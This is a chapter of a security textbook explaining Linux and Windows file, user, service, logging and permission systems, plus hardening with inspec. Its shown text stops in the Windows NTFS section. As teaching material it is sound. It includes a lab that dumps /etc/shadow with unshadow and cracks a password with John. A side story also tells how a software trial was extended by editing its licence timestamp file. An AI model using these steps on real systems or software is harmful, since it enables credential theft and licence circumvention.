

<span class="chapter-banner">Chapter 5</span>
# Operating System Security


**Objectives**
1. Gain an understanding of Linux file, user, service, and logging systems.
2. Conduct system hardening and benchmarking activities using `Inspec`.
3. Learn the file, user, service, and logging systems in Windows.
4. Perform Windows Defender antivirus bypass.

Modern operating systems (OS) have built-in security measures to ensure that stored and processed information is secure for authorized users.  Administrators and object owners can determine who and what level of access accounts have on the device.  Operating systems also have features which impact security and are worthy of consideration.  These features can be abused and enable an attacker to meet their impact objectives.  Learning how these features work will support the next chapter's focus as we explore persistence and privilege escalation techniques.
## Linux
In this section, we will study the basic Linux file, authorization, user, and password systems available to administrators.  It will also explore how the operating system manages running applications, task scheduling, and logging systems which hold significant security value.
### File System
Within Linux, everything is either a file or represented as a file.  Unintuitive things like memory space and devices are treated as files that can be navigated to and explored using commands and file system applications.  When the operating system is installed, a partition is created on the drive and a file system is created.  The file system includes instructions that determine how files and folders are stored within the partition.  These instructions include file metadata, naming syntax, and space requirements.  The **extension version 4 (ext4)** is the current and most common file system for Linux in support at the time of this writing.

The ext4 file system provides nested folders or directories under a root folder represented by a forward slash `/`.  Within the root folder are several other folders that support user and operating system needs.  Some of the most common folders are represented in the following figure.
![[../images/05/linux_folders.png|Linux Folder Structure]]

Starting on the left and working our way to the right, we have the `/bin` directory.  This folder holds the binaries, or applications, installed on the system.  The `/dev` folder has all the hardware devices that the operating system detects, such as drives, memory, and peripherals.  Configuration files for the OS and installed applications are located within the `/etc` folder.  Users files are stored within folders named after their usernames within the `/home` directory. The `/lib` folder contains library files needed during system boot, and the `/mnt` folder is often used to hold references to other drives mounted on the device.  The `/opt` folder is used to store optional files and is where I often store my installed applications.  The `/root` directory is the root user's home directory and is unavailable to other system users.  Similar to the bin directory, the `/sbin` directory holds binaries used for system specific applications.  The `/tmp` folder stores files that are used but are disposable and will be automatically deleted after some time or when rebooted.  Shared read only files, binaries, libraries, and manuals are installed within the `/usr` directory and variable files such as data files, logs, mail inboxes, and application files are within the `/var` directory.

We will discuss users and groups in the next section, but for now you should understand that everything in Linux is a file, and every file is owned by a user, or *owner*, and group.  Usually, the user that creates the file is the owner and has full discretion on how it is used.  The owner can make any changes to the file, including the permissions applied to the group.  File ownership can be altered using the built-in utility `chown`.  For example, a file `example.txt` can have its ownership changed to the `daniel` user and the `dev` group with the following command: 
```bash
chown daniel:dev example.txt
```
### Authorization System
In the previous section, we explored the ext4 file structure and suggested every file has an owner and group.  Expanding on this basis, every file can have *read (r)*, *write (w)*, and *execute (x)* permissions expressed for the owner, group, and everything else known as *others*.  Owners are the creator or the assigned account of the file.  Any account on the Linux device can be assigned to one or more groups and a group can be assigned permissions to files.  The last set is the others category, which applies to any other account on the system that is not the owner or the assigned group.

The **permission set** for any file can be displayed using the `ls -l` command.  The first 10 characters block is dedicated to identifying permissions for each object.  The first character in the block is used to identify if the object is a directory and has the values `d` for directory or `-` indicating a file.  The next three characters of the block identify permissions for the user.  The second set of three characters are used to define the permissions for the assigned group.  The last set of three characters evidence the permissions for the others category.  The third and fourth column in the list command output shows the owner and the object's group.  The figure below illustrates the owner `daniel` and the group `dev` on the `example.txt` file.  It shows that `daniel` has read/write, `dev` has read, and everyone else (others) have read permission.

![[../images/05/linux_permission_set.png|Linux Permission Set|400]]

Read, write, and execute (rwx) permissions can be set using the `chmod` command with *symbolic* or *octal* notation.  We have already covered the permission set using symbolic notation which is represented using `r`, `w`, and `x` for read, write, and execute, respectively.  These same permissions can be represented using octal or numeric notation.  Under octal notation, each permission is represented by a number as listed in the following table.

| Permission | Symbolic | Octal |
| ---------- | -------- | ----- |
| Read       | r        | 4     |
| Write      | w        | 2     |
| Execute    | x        | 1     |

A permission set can then be referred to using the summation of the octal values.  For example, if the user account `www-data` has read, write, and execute permissions on a file, the octal value is 7 as we add 4 + 2 + 1 or read + write + execute.  Under this notation, you can identify a symbolic set by giving just the octal value.  For another example, given the octal 5 you can infer that the permission set is read and execute because 4 + 1 is the only combination that equals 5.  The following table outlines all combinations of octal values excluding the three demonstrated in the previous table.  Notice that the no permission set's octal value collides with another permission set and that the possible octal value range is 0 through 7.  

| Permission Set | Octal | Calculation |
| -------------- | ----- | ----------- |
| R+W+X          | 7     | 4+2+1       |
| R+W            | 6     | 4+2         |
| R+X            | 5     | 4+1         |
| W+X            | 3     | 2+1         |

Symbolic notation references the permission set with the letters `u` for user, `g` for group, and `o` for others, in that order.  When using octal with symbolic notation, the placement or order of values is important.  For example, an octal permission set 754 means the user has `rwx`, the group has `rx`, and the other has `r` only.  Consider the following code block.

```bash
chmod ug+rwx example.txt
chmod o+r example.txt
chmod 777 example.txt
```

The first `chmod` command sets the user and group of `example.txt` to read, write, and execute permissions.  The second command sets the other permission set to read only, while the last command uses octal notation setting read, write, and execute permissions for the user, group, and other.

> [!warning] Warning - Octal 777 Permission Set
> Setting read, write, and execute for all users and groups on a system is considered an insecure practice.  Many Linux systems will highlight the file and change the font color to red to warn of the setting while listing directories.

Imagine a scenario in which we want to grant others the ability to execute a file as the file's owner.  For this case, there is a special permission called the *setuid bit* that can allow an executable file to be run as the file's owner.  The *setgid bit* can also be used to allow a file to be run as the assigned group.  In the case of the file, the object is modified using `chmod` and the **set user ID (SUID)** is configured with the symbolic notation execute bit `s` for the user permission set.  Such a file might have a permission set like `rws` instead of `rwx`.  Similarly, the **set group ID (SGID)** is configured in a similar fashion, but an `s` is used on the group portion of the permission set.  In either case, this allows the executable file to be as the owner or group by anyone on the system without giving them ownership of the object.  SUIDs and SGIDs files can be helpful to Linux administrators when elevated access is needed for a specific executable.  We will explore how SUID/SGIDs can be abused to achieve privilege escalation in the next chapter.

>[!note] Note - Self Group
>Each time an account or user is created, a corresponding default group using the account name is also created.  If an account `daniel` is created, a group named `daniel` is also created and the user is automatically assigned to their like-named group.
### User System
Linux users are created and modified by a system administrator using the `useradd` and `usermod` commands.  Users are usually assigned a folder of the same name under the `/home` directory where they are the default owners.  As mentioned earlier, they are also assigned into a group of the same username, but they can also be added to other groups.  You might recall that in activities from earlier chapters we demonstrated adding a user to the `sudo` group using the `usermod` command.  Users have many special features within the Linux operating system.

One special feature is the assignment of an optional interactive logon shell. A user account without an interactive shell or home folder is called a *system account* or *service account*.  These accounts are used for applications and can still have permissions granted to them for files on the system but are restricted from interacting with the system.  The following command creates a new user named `daniel` on the system.

```bash
useradd -m daniel
```

Any user can be added to any number of groups to assist in the management of access to files.  The power of groups becomes known when having to manage many users and files on a system.  The assignment of users to groups and groups to files allows administrators to organize and to streamline the management of file access.  Assigning someone to a group will instantly grant them all the permissions for all the respective files associated with the group.  The following command creates a new group `dev` to which users can be assigned.

```bash
groupadd dev
```

Managing users and groups by file promotes separation of access and supports system security.  For example, a web application running as the system user `www-data` may not need permissions to read files outside the `www` folder.  Should the web application running as the `www-data` user ever become compromised, its impact may be limited to only the files it can read within the `www` folder. 
### Password System
All interactive user accounts should have a strong password to log on to the system and use files.  When a user enters their password, the operating system must verify that the password matches a record within the operation system before granting access.  This means that passwords must be set and stored somewhere within the Linux system to enforce security during authentication.  Linux does not store user passwords in plaintext but instead stores the passwords as a hashed value.  You may recall covering hash algorithms in the Cryptology chapter.  When a user logs in, or re-authenticates, their plaintext password is hashed.  The system takes the user supplied password hash and compares it against the stored password hash for the user.  If the hash values match, the user is authenticated, otherwise their access request is denied. 

In the past, the hashed passwords were stored alongside user information within the `/etc/passwd` file.  This file contains information such as usernames, shell settings, and home folder paths.  In later versions of Linux, the hashed passwords were removed from `/etc/passwd` file because everyone has read permissions on it.  The danger of exposing a hashed password is that an attacker could attempt to crack it offline taking as much time as needed.

Nowadays, the hashed password is stored in the `/etc/shadow` file and is only readable and writable by the root user.  Doing so limits the opportunity for a hash password to be leaked and cracked by an attacker.  The shadow file lists each account's username and hashed password separated by a colon.  Depending on the hash algorithm used, the hash password is delimited by dollar signs into three segments.  The first segment defines the algorithm type, the second segment is a salt, and the last segment is the hashed password.  A **salt** is a random unique string that is added to a password when it is being hashed.  Using a salt ensures that any two users with the same password will have different hashes.  This has the benefit of slowing an attacker's computation capacity when attempting to crack multiple user password hashes.  It also eliminates the risk of *rainbow password* attacks, where attackers use pre-computed hash lists to crack a target hash password.

Hashed passwords can never be *unhashed*.  However, an attacker that possesses the hash can attempt to recreate it using *brute force* or *dictionary* methods.  Brute forcing password hashes usually means computing the hash of for every character combination and comparing them against a target hash until a match is found.  This becomes prohibitively expensive in time and effort the longer and higher entropy (random) a password is.  Alternatively, in a *dictionary attack*, a list of common passwords is hashed individually and their output is compared to the target hash.  A password is cracked when there is a match between the computed hash and the original target hash since the attacker knows the plaintext value used when computing the hash.

> [!activity] Activity 5.1 - Shadow Cracking
> Using the Kali VM, I will create a test user and assign them a password.  Then I will prepare a hash file that can be used with the cracking tool, John, to crack the password using the `rockyou.txt` password list.
> 
> First, I launch a terminal and create a user tester using the following command.
> ```bash
> sudo useradd -m tester
> ```
> ![[../images/05/linux_activity_crack_useradd.png|Creating the User Tester|600]]
> With the user created, I set the password to the weak value "Password123" using the `passwd` command.
> ```bash
> sudo passwd tester
> ```
> ![[../images/05/linux_activity_crack_pass_set.png|Setting Tester User Password|600]]
> Now that the vulnerable user is created, I create a hash file using the `john` unshadow command.  This utility combines the `passwd` and `shadow` files into a new file that is compatible with the `john` password cracking program.  I pipe the result to `grep` to pull the line that has our tester victim listed then, redirect that line into a file in the `tmp` folder in a file named `hash.txt`.
> ```bash
> sudo unshadow /etc/passwd /etc/shadow | grep tester > /tmp/hash.txt
> ```
> ![[../images/05/linux_activity_crack_unshadow.png|Creating Unshadowed Hash File|600]]
> I will launch a dictionary attack that requires a list of passwords.  Kali has many password lists already installed that I can use.  My favorite is the `rockyou.txt` list which consists of around 14 million passwords leaked from a LinkedIn breach many years ago.  The file is compressed so I use the `gunzip` utility to extract the list.
> ```bash
> sudo gunzip /usr/share/wordlists/rockyou.txt.gz
> ```
> ![[../images/05/linux_activity_crack_rockyou.png|Extracting Rockyou Password List|600]]
> The last step is to launch `john` against the `hash.txt` file stored in the `tmp` directory.  I will set the format to crypt, as this is the format or algorithm used by Kali to hash passwords.  It takes about 5 minutes to complete on my virtual machine but could be much faster on a host computer with a GPU.
> ```bash
> john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt /tmp/hash.txt
> ```
> ![[../images/05/linux_activity_crack_result.png|Cracked User Password Using John|600]]
> After the password is cracked, John displays it alongside the username!
### Processes
Anytime an executable or command is run on a Linux system, at least one new process will be created.  **Processes** are applications that have been loaded into memory by the system and are processed by the CPU.  The CPU will interact with the memory space of the process by reading its data or machine code for processing.  When the process is created, it is assigned a *process id (PID)* which is a number unique to any other running process on the operating system.  A process can invoke any number of additional applications, which in turn creates new processes.  These process invoked processes are attributed to the calling process and known as the *parent PID (PPID)*.  The subordinate process to the parent is called the *child process*.  Because commands or applications are run in the context of a user or account, each process inherits the permissions of that user.  Each process user context can be identified by enumerating processes running on a system.

> [!note] Note - Process Permissions
> The principle of least privilege should apply with processes by running applications as a user with a minimum set of permissions needed for the task.  For example, running a web server application as root increases security risk because if that application is compromised, the attacker will be unrestricted on that system.

> [!activity] Activity 5.2 - Navigating Processes
> Processes can be created, observed, and stopped using pre-installed Linux commands.
> 
> Using the Ubuntu VM, I run the `watch` command to monitor changes to the `home` folder using the `ls` command.
> ```bash
> watch ls /home
> ```
> ![[../images/05/linux_activity_proc_watch.png|Running Watch and List Processes|600]]
> Because the command is continuously running, it is safe to assume there is a process that is running.  I can view the process details using the `ps` or process command with the options `auxwf`.  These options will show all details of running processes and display in a tree mode for parent to child reference.
> ```bash
> ps auxwf
> ```
> ![[../images/05/linux_activity_proc_ps.png|Running Process Tree|500]]
> The `ps` command displays my running `watch` command with a PID 4610.  The command shows that the process is a child process of a `bash` command since it is running in a terminal.  I could stop the running `watch` command within its window using `CTRL+C` but I can also end the process with the following `kill` command.
> ```bash
> kill -9 4610
> ```
> ![[../images/05/linux_activity_proc_kill.png|Kill Running Process|500]]
> Once the `kill` command completes, the terminal where the watch command was running returns to bash with a "Killed" message.
> ![[../images/05/linux_activity_proc_killed.png|Killed Process Result|500]]
> Another useful tool is the `top` command which will display all running processes.
> ```bash
> top
> ```
> ![[../images/05/linux_activity_proc_top.png|Running Top Command|500]]
> The `top` command refreshes every few seconds and describes the system resources in use as well as an ordered list of processes.  This list can be sorted and rearranged but is outside the scope of this activity.

Processes and their memory space have several security implications.  The data loaded into process memory may be manipulated to cause buffer overflows that can cause arbitrary code execution.  Processes can also have their memory space hollowed out to hide malicious code that masquerades as a normal process making malware more challenging to identify.
### Services
Processes, or applications that continuously run in the background of the operating system that  are waiting for an event or doing a task, are known as **services**.  A *daemon* is a long running process that runs in the background and is often used to describe a service.  But a service is much more than a long running background process.  A service on the operating system is specifically configured with a definition of how the service will behave.  Therefore, services are daemons, but not all daemons are services.

>[!activity] Activity 5.3 - Exploring Systemd
>Linux manages services using the `systemd`, or system daemon, to manage the services on the device.  The service files are located in the `/etc/systemd/system/` directory as demonstrated in the following command.  Many of these files use symbolic links to reference other areas of the file system where the service file resides.
>```bash
>ls -la /etc/systemd/system/
>```
>![[../images/05/linux_activity_system_cat.png|Systemd Files|600]]
>One of the service files I spotted in the `system` folder is the Avahi service.  I can view more information about this service within the journal logs maintained by `systemd`.  They can be queried using the `journalctl` command as follows.
>```bash
>sudo journalctl -u avahi-daemon
>```
>![[../images/05/linux_activity_journal.png|Service Logs from Journalct|600]]
>Another method for listing services is to use the built-in `systemctl` tool.  The following command lists all the services available on the Ubuntu VM.
>```bash
>systemctl --type=service
>```
>![[../images/05/linux_activity_systemctl.png|Systemctl List of Services|650]]
>I see that our Avahi is one of the services listed here.  It shows a status of loaded, active, and running.  I can explore the service status and logs using the `systemctl` command as well.
>```bash
>systemctl status avahi-daemon
>```
>![[../images/05/linux_activity_avahi_service_status.png|Systemctl Status of Avahi Service|450]]
>Of note is the loaded path of the service.  This path references the file of the Avahi service which can be examined further using the `cat` command.  I pipe the output of the `cat` command to `grep` and filter out any comments in the file for sake of brevity.
>```bash
>cat /lib/systemd/system/avahi-daemon.service | grep -v '#'
>```
>![[../images/05/linux_activity_avahi_service_file.png|Avahi Service File|450]]
>This file represents the configuration of the service.  All that is needed to create, or modify, a service is a file like this one in the `systemd` directory.  Of particular interest is the `ExecStart` value which shows the path to a system binary called `avahi-daemon`.  This binary program is running in the background for the service.

Should an attacker gain direct or indirect control of the service through the program in its executable path, they would hijack the service.  Some services require elevated permissions to run effectively and if vulnerable to hijacking, could allow an attacker to escalate their privileges.  Another abuse is to use the native system to establish persistence, which will be covered in the next chapter.  Such exploits could be feasible if the executable is modifiable by the attacker's account.  The attack can also be accomplished indirectly should the service executable use other executables that are in the attacker's control.  One last common misconfiguration is to grant service file modification permissions to unneeded parties which could allow abuse that hijacks the service.
### Cron
The **cron** Linux system is used to schedule jobs, called a *cron job*, which is run by users or the operating system.  Cron is used to run binaries or scripts based on static schedules by placing a file within the system's cron folders.  Cron also supports running binaries and scripts through custom events or schedules within the cron table, or `crontab`.  The `crontab` file is a configuration set available for every user on the system, including the root user.

> [!activity] Activity 5.4 - Preparing Cronjobs
> I can create a cron job by editing the cron table file.  Cron comes with the built-in `crontab` command which can be run in edit mode using the `-e` option.
> ```
> crontab -e
> ```
> This launches the cron table file into the editor of my choosing.  Entries in the file use a special pattern to identify the frequency the job will run at alongside the path to an executable.  My favorite website to create schedules is https://crontab.guru which is full of examples and helpful when designing cronjobs.  I add the following entry into my crontab file that will run the `cat` command on the `/etc/passwd` file at 4:05 every Sunday.
> ```
> 5 4 * * sun cat /etc/passwd
> ```
> The `crontab` command run with the `-l` option will list each cronjob in the file for my user.  Again, I use `grep` to filter out any comments within the file.
> ```
> crontab -l | grep -v '#'
> ```
> ![[../images/05/linux_activity_cron.png|Crontab List User Cronjobs|600]]
> The system or root user's cronjobs can be listed as well from the `/etc/cron*` directories.  Binaries and scripts placed in these folders will be run by root in the respective period described by the folder's name. 
> ```
> ls -la /etc/cron*
> ```
> ![[../images/05/linux_activity_cron_list.png|Cron Folder List|600]]
> The logs for cron activity are found within the `/var/spool/cron/crontabs` file but it is only accessible by root.  This log file is helpful when diagnosing or troubleshooting cron activity on a system.

Similar to services, cron job executables can be hijacked by attackers using the same methods.  It is important to ensure the executable that is used in a cron job is secured from modification by unauthorized parties.
### Logging
The results, output, and errors generated through applications, services, and daemons are aggregated within log files.  Log files can be especially useful to administrators and security professionals when troubleshooting, monitoring, or auditing systems.  Administrators can review log files which often include the results or error messages of a system or application.  Security professionals can use system logs for monitoring and auditing purposes.  Log entries inform security personnel when an application has an anomalous security event that could indicate a compromise or an attack.  The logs are also useful during investigations to identify when certain activity occurred, which enables a security team to create a timeline of events among other insights.

Logs can be categorized into system and application types.  System logs usually include entries that are related to the operating system and its core components.  *Syslog* standardizes the logs from a system into a structure format.  These logs from various systems can be shipped over the network to a central location.  Kernel messages , or *dmesg* logs, include system and hardware events.  Both syslog and dmesg logs are typically kept in dedicated files that receive input from several applications.  Application logs can also be dedicated for a specific application and not use syslog or dmesg.  For instance, an Apache web server includes access and error log files in a dedicated application log folder separate from other application logs.

> [!activity] Activity 5.5 - Linux Log Files
> Log files are commonly stored within the `/var/log` folder.  Within this folder we can see syslog, dmesg, and application logs.  The following command lists the files within the log folder.
> ```
> ls /var/log
> ```
> ![[../images/05/linux_activity_log_list.png|Linux Log List|600]]
> I can use the `cat` or `head` commands to view the log entries.  The first line of the `syslog` file on my Ubuntu VM lists the timestamp, application name, and event description of the `rsyslog` service.
> ```
> sudo head -n 1 /var/log/syslog.log
> ```
> ![[../images/05/linux_acitvity_log_head.png|First Line of Syslog|600]]

The format and contents of logs can vary, but they usually include common information such as, but not limited to, timestamps, user information, and description.  Each entry is referred to as an *event* and logs are periodically rotated by a system utility.  Once a log file exceeds a pre-set capacity or time limit, it is compressed and moved into a new numbered file by the logging system `logrotate`.  After a threshold of log files has been met, the logging system will delete the oldest file and start a new log file - rotating the log data.  `Logrotate` will ensure that any file ending in `.log` within the `/var/log` folder will follow these rules.
### Hardening
Linux systems can be exposed to security risks through insecure software and system misconfigurations.  Beyond the vulnerabilities a system might have, it can also be ill-equipped to handle security threats.  **Hardening** a system is the act of ensuring the prevention and detection of security threats by identifying settings that make the system less secure.  Administrators can then mitigate the risk by updating the system with appropriate settings.  The act of hardening a system reduces the likelihood and impact of security threats and is a standard practice for individuals serious about keeping systems secure. 

The following list, in no particular order, details common hardening activities:
- **Patch Management** - Code maintainers of operating systems and applications make periodic updates to their technologies to improve features, performance, and security vulnerabilities.  The availability of software and its current versions can be maintained centrally within repositories such as the *advanced package tool (apt)*.  Updating software can eliminate known vulnerabilities; however, implementing a system to automate the installation of security updates improves the security posture of a system.
- **Logging** - As discussed in this chapter's Logging section, enabling logs is a good security practice as it benefits the monitoring and auditing of security events.  Ensuring that logs are enabled, and ideally centralized into another system, strengthens the overall security of a system. 
- **Disabling Services** - We've already covered how services can be a vector for persistence and privilege escalation, but they can also be a vector that provides initial access to a system.  A network service is a daemon that listens on an open socket within the device and accepts network connections.  Any such service could potentially provide an opportunity for remote access.  Ensuring the security of internal and network system services decreases the overall attack surface of a system.
- **Removing Applications** - Popularized with the term *bloatware*, removing unneeded or unnecessary software also can reduce security vulnerabilities.  We should acknowledge the fact that all software has vulnerabilities whether they are known or not, so removing unneeded software will reduce the total amount of vulnerabilities.
- **Access Management** - System administrators are usually responsible for the creation, maintenance, and removal of accounts on a system.  The user and authorization systems discussed earlier in this chapter cover the importance and the security benefits of these systems.  Removing unneeded accounts and reducing permissions to least privilege are great security practices to reduce opportunities for abuse.  Administrators should conduct regular audits of these systems to ensure that tight security is maintained.
- **Secure Configurations** - Reputable software providers usually provide guidance to administrators by securely deploying and maintaining their software.  Ideally, only services with well tested configurations are deployed onto systems and then are regularly monitored for misconfigurations.  Administrators should ensure that other security systems on the device are also enabled and configured correctly, such as host firewalls and application control software like app armor.

> [!activity] Activity 5.6 - Linux Baseline Hardening
> There are several tools and standards that can be used to regularly test or audit the security posture of operating systems.  These standards are usually referred to as *baselines* and are collections of rules for a particular system.  Chef, a popular automation tool and framework, created the tool `inspec` which comes with a set of baselines that can be used to audit the security settings of a system.  In the following activity, I will demonstrate the use of `inspec` against the Ubuntu system to identify misconfigurations and security weaknesses.
>  
>  I start the Ubuntu VM in bridge adaptor network mode and open a terminal to install `inspec`.  The tool is available in Debian software package file (.deb) and can be downloaded using the built in `wget` utility.
>  ```bash
>  wget https://packages.chef.io/files/stable/inspec/4.18.114/ubuntu/20.04/inspec_4.18.114-1_amd64.deb
>  ```
>  ![[../images/05/linux_activity_inspec_download.png|Download Inspec DEB File|500]]
>  Once downloaded, I initiate the installation using the `dpkg` command.
>  ```bash
>  sudo dpkg -i inspec_4.18.114-1_amd64.deb
>  ```
>  ![[../images/05/linux_activity_inspec_install.png|Installing Inspec|450]]
>  After a few seconds, the software is installed and is ready to be used.  `Inspec` must be fed a compliance ruleset which is used to audit the security of the system.  I will use Dev-sec's linux-baseline ruleset in this demonstration.  The following command executes the linux-baseline while accepting the standard license terms from Chef.
>  ```bash
>  inspec exec https://github.com/dev-sec/linux-baseline --chef-license accept
>  ```
>  ![[../images/05/linux_activity_inspec_scan.png|Inspec Linux-Baseline Scan Result|450]]
>  After about a minute of scanning, `inspec` returns a list of results.  As shown in the screenshot above, green rules with a checkmark indicate a rule that has passed with the secure respective setting.  The rules are collected into groups, called controls, with the naming syntax `os-##`.  The first rule in control os-02 reads "File /etc/shadow is expected to exist" suggesting that the shadow file is expected on the system.  If the shadow file did not exist, we could expect this particular rule to fail, which would then display in red with an "x" instead of a checkmark.  Scrolling down the report, I can observe some failed rules as shown below.
>  ![[../images/05/linux_activity_inspec_fail.png|Inspec Failed Rules|450]]
>  The section os-05 has some passed and failed rules.  When a rule fails, `inspec` informs us why it failed and offers the setting needed to pass the rule.  The first failed rule `login.defs UMASK is expected to include "027"` fails with the comment `expected "022" to include "027"`.  Do not worry if you do not know what `login.defs` is or what the UMASK setting is used for, that is the purpose of Google!  System administrators would take these rule violations and research how to correct them before applying the changes needed.  Once they have been applied, `inspec` should be re-run to confirm the solution applied worked.  Many times, a solution does not fix the issue and additional efforts are needed, so re-testing is an important step in any vulnerability or misconfiguration management system.
>  
>  The very end of the report provides us with summary statistics of the number of rule run, skipped, passed, and failed.  These summary statistics are beneficial as they can be compared between systems to identify which systems have the most violations or security risk.  Administrators can then concentrate their efforts on those systems with the most risk having the biggest positive impact on security.
>  ![[../images/05/linux_activity_inspec_summary.png|Inspec Summary Statistics|600]]
## Windows
This section is organized in a similar fashion as the Linux section.  It covers file, authorization, user, and password systems.  It also introduces some of the operating system's features that can be abused by attackers, which will be explored in further detail in the next chapter.
### File System
Microsoft has created several file systems over the years supported by various Windows versions.  The most common and current system is the **new technology file system (NTFS)**, which is used on the Windows virtual machine throughout this textbook.  NTFS supports several features and security enhancements over previous file systems, like increased capacity as well as discretionary access control.  The system supports volumes of up to 16 exabytes and usually requires around 400 megabytes of space to track the drive's capacity and files on it.

Windows operating systems using NTFS create several folders to store system and user files.  During installation of Windows, a volume is created and mounted with a drive letter under which standard folders are created, and files are kept.  The image below outlines some of the more interesting folders from a security perspective, though many additional folders and subfolders are not included here.
![[../images/05/win_folders.png|Common Windows Folders|450]]

Starting after the root directory and on the left side of the diagram is the `Program Files` directory which contains 32 and 64-bit programs available to the operating system and users.  Similarly, the next folder, `Program Files (x86)` keeps 32-bit programs only.  The separation of folders reflects a long-standing history of Microsoft supporting backwards capabilities.  Administrators and security professionals are often interested in the applications that are installed on systems, as every application could expose additional risk to the device; as they could contain vulnerabilities and misconfigurations.  The `ProgramData` folder is hidden from view by default within the File Explorer program.  It includes data and files used by the applications installed on the operating system.

> [!story] Story - ProgramData Used for Software Licensing
> A software I use for educational purposes only, and not commercial use, has a 30-day trial period after which the user is locked out and required to purchase a license key.  Installing the software on a virtual machine and experimenting with the trial use, I found that the software trial period persists between reinstallations.  A simple uninstall and reinstall does not bypass the trial period restriction.  However, I discovered that if I revert the virtual machine to its initial state, I can reinstall the trial version of the software and the license tracker starts over.  Tinkering further, I found that if I set the Windows time/date backwards 30-days or so with the trial expired, the software recalculates the days I have left on the trial!  
> 
> With this information in hand, I could deduce that something on the Windows device tracks the time the software was installed and that it persists between reinstallations.  Extending my experimentation, I used `Regshot` to capture file system and registry changes before and after installation, as well as before and after uninstalling the software.  I then compared the changes between the two activities to identify what persisted on the operating system.  This resulted in a list of a couple hundred registry entries and files to cover, but I eventually found a data file stored in the `ProgramData` folder under a subfolder of the respective software.  Removing this file and reinstalling the software proved that it contained the data used to calculate the trial period as the reinstalled software trial clock started over!
> 
> Interested in the contents of this file and how it worked, I decided to investigate it further.  The file consists of binary data that is not rendered usefully in Notepad.  It is small at about 128 bytes, so I opened it in a hex editor and began changing a byte at a time and to observe how the program behaved differently.  I reverse engineered several data components of the file discovering that it would include the license key placeholder, checksums, and more importantly, timestamps used to determine the trial period expiration.  By altering the timestamp, I was able to extend the available trial period to 9,999 days.

Like Linux, Windows creates a `Users` folder that contains user account home subfolders.  These folders include files dedicated to the accounts used on the operating system, but the `Users` folder also include a public default folder for anyone to use.  Each user folder contains a hidden `AppData` directory that stores user software data files and can be a source of configurations and even files that contain stored credentials.  Also off the root folder is the `Windows` folder where the Windows operating system files are stored.  This folder contains many subfolders and files including the `System32` that stores 64-bit files.  Similarly, the *SysWOW64* folder contains 32-bit binaries.  These folders also contain *dynamic link library (DLL)* binaries are stored that applications can use to *safely* interact with the kernel of the operating system via the Windows *application program interface (API)*.

>[!tip] Tip - Forward and Back Slashes in Directory Trees
>Windows relies on the use of backslashes in the directory tree whereas Linux uses forward slashes.
### Authorization System
Windows supports granular access controls for file objects via NTFS.  This discretionary access control has basic permission sets like Linux's read, write, execute paradigm.  NTFS uses the following permissions:

- **Full Control** - Complete capability over the object and granting of access rights.
- **Modify** - Edit permissions over the file.
- **Read & Execute** - View and run files.
- **Read** - View only.
- **Write** - Replace file contents.

These permissions are usually enough for most circumstances; however, NTFS offers advance permissions providing even further capability to grant granular permissions per object.  Such capability promotes the principle of least privilege and can be used by administrators to limit an account's access to files on the system.

> [!activity] Activity 5.7 - Exploring Windows NTFS Permissions
> Using the Windows VM, I will run File Explorer to review permissions on files within the `System32` folder.  This folder contains a `crypt32.dll` file which offers Windows API cryptographic functions and will be the target of my NTFS permissions review.
> 
> After navigating to the `System32` folder that stores `crypt32.dll` file, I right-click the file and select the Properties option from the context menu.
> ![[../images/05/win_activity_ntfs_properties.png|Crypt32.dll File Properties|600]]
> This launches the file's properties menu where general information about the file can be observed.  I select the Security tab which reveals the basic NTFS permissions set on the file.  Principals are listed under the "Group or user names" section.  Selecting a principal displays their basic NTFS permissions within the table at the bottom of the window.  The ALL APPLICATION PACKAGES principal has the Read & execute and the Read permissions assigned, as indicated by the check mark.
> ![[../images/05/win_activity_crypt_security_settings.png|Crypt32.dll Security Settings|350]]
> I select the Users group and then the Advanced button to display the advanced NTFS permission associated with all users on the system.  Because the Users group does not own this file, any changes to it requires Administrator permissions.  The file's advanced NTFS permissions can be altered by pressing the Change permissions button at the bottom of the window.
